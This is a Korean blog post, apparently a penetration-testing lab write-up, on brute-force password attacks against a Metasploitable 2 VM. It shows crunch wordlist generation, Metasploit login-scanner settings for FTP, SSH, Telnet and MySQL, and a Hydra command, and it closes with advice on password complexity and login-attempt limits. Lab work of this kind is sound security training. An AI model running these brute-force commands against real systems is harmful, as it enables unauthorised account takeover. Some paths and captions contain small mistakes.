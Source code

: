 ```yaml
---
layout: post
title: "모의해킹 : Brute force"
tags: [event]
---
```


<span style="font-size:3em; color:#33FFFF;">모의해킹 : Brute force</span>
<br> 
Brute force는 무차별 대입 공격으로 불리며 비밀번호를 탈취하기 위한 가장 고전적이면서 가장 효과적인 방법이다.
<br> 
이론상으로 아무리 복잡한 비밀번호 체계일지라도 충분한 시간만 주이지면 해독이 가능한 공격이다.
<br> 
<br> 


<style type="text/css">
.tg  {border-collapse:collapse;border-spacing:0;}
.tg td{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  overflow:hidden;padding:10px 5px;word-break:normal;}
.tg th{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  font-weight:normal;overflow:hidden;padding:10px 5px;word-break:normal;}
.tg .tg-baqh{text-align:center;vertical-align:top}
.tg .tg-amwm{font-weight:bold;text-align:center;vertical-align:top}
</style>


<table class="tg">
<thead>
  <tr>
    <th class="tg-amwm">구분</th>
    <th class="tg-amwm">운영체제</th>
    <th class="tg-amwm">IP</th>
    <th class="tg-amwm">비고</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td class="tg-baqh">공격자</td>
    <td class="tg-baqh">Kali linux</td>
    <td class="tg-baqh">172.16.27.140</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
  <tr>
    <td class="tg-baqh">희생자</td>
    <td class="tg-baqh">Metasploitable 2</td>
    <td class="tg-baqh">172.16.27.143</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
</tbody>
</table>
해당 공격을 실습하기 전 필요한 가상환경은 위 표와 같다.
<br> 
<br> 
<br> 


<span style="font-size:1.5em; color:#66CCFF;">Crunch</span>
<br>
<span style="font-size:1em; color:#FF0033;">Crunch</span>도구를 통해 칼리리눅스에서 무차별 대입 공격에 필요한 비밀번호 항목을 생성할 수 있다.
```
# cat /usr/share/crunch/charset.lst
```
<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204799516-817219c6-d54e-4950-adc5-d0769daffd97.png" >
<figcaption>
cat /usr/share/crunch/charset.lst 명령어를 입력한 모습
</figcaption>
</figure>
</div>
위 명령어를 통해 크런치 사용법을 확인할 수 있다. 이 중에서 numeric 플래그를 이용하여 숫자로만 이뤄진 비밀번호를 생성한다.
<br>
<br>


```
# crunch 1 4 -f /usr/share/crunch/charset.lst numeric -o /root/passwords.txt
```
위 명령어는 4자리로 이뤄진 비밀번호를 생성하라는 의미다. 여기서 비밀번호를 생성한 이유는 무차별 대입 공격의 하나인 <span style="font-size:1em; color:#FF0033;">Dictionary 공격</span> 일명 사전 기반 공격을 하기 위함이다. 이렇게 무차별 대입 공격을 하기 위한 사전이 준비되어 있다.
<br>
<br>


```
# cat > /root/user.txt
root
```
추가적으로 위 명령어를 실행하여 관리자 계정으로 사용하는 단어를 작성한다.
<br>
root는 Unix/Linux 기반의 운영체제와 My-sql 서버 등에서 사용하는 관리자 계정이다.
<br> 
<br> 
<br> 


<span style="font-size:1.5em; color:#66CCFF;">공격 실습</span>
<br>
```
# msfconsole
```
공격 실습에 앞서 위 명령어를 통해 메타스플로잇에 접속한다.
<br>
<br>


```
use auxiliary/scanner/ftp/ftp_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 FTP 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/ssh/ssh_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 ssh 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/telnet/telnet_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/mysql/mysql_login
set rhosts 172.16.27.143
set rport 3306
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>
<br>


이렇게 메타스플로잇을 이용하여 무차별 대입 공격을 할 수 있다. 하지만 이 경우 시간이 오래 걸릴 수 있기 때문에 <span style="font-size:1em; color:#FF0033;">Hydra</span>를 이용하여 지연 시간을 줄일 수 있다.
<br> 
<br> 
<br> 


<span style="font-size:1.5em; color:#66CCFF;">Hydra</span>
<br> 
<span style="font-size:1em; color:#FF0033;">Hydra</span>는 모의 침투 운영체제에서 기본으로 제공하는 무차별 대입 공격 도구다.
<br>
<br>


```
# hydra -l root -P /root/passwords.txt -f 172.16.27.143 ftp
```
위 명령어를 이용하여 ftp 서비스를 대상으로 공격하며 뒤 서비스를 ssh, telnet으로 변경하면 다른 서비스에 공격할 수 있다.
<br>
<br>


이외에도 흔히 정보 수집 도구로만 알려진 Nmap으로도 무차별 대입 공격이 가능하다. Nmap의 NSE 모듈을 사용하여 공격을 수행할 수 있다.
<br>
<br>
<br>


<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204810812-099b9090-3ffb-48ff-b2da-b995b4c87cae.png" >
<figcaption>
my-sql을 대상으로 무차별 대입 공격
</figcaption>
</figure>
</div>
<br>
<br>


<span style="font-size:1.5em; color:#66CCFF;">실습 후기</span>
<br>
이론상 가장 효과적인 무차별 대입 공격 실습을 하면서 로그인 시도 횟수 및 효과적인 암호를 위해 특수문자, 대문자, 숫자 등 여러 기호를 넣어야 하는 이유에 대해 다시 생각 해볼 수 있었으며, 서버 또는 DB 구축 시 로그인 실패 횟수를 설정하여 해당 취약점에 대비해야 한다.
<br>
<br>


<span style="font-size:1.5em; color:#66CCFF;">Author</span>
<p>
<div>
   <a href="https://accio3014.github.io/" target="_blank">Seokcheon Jeong</a>
</div>
</p>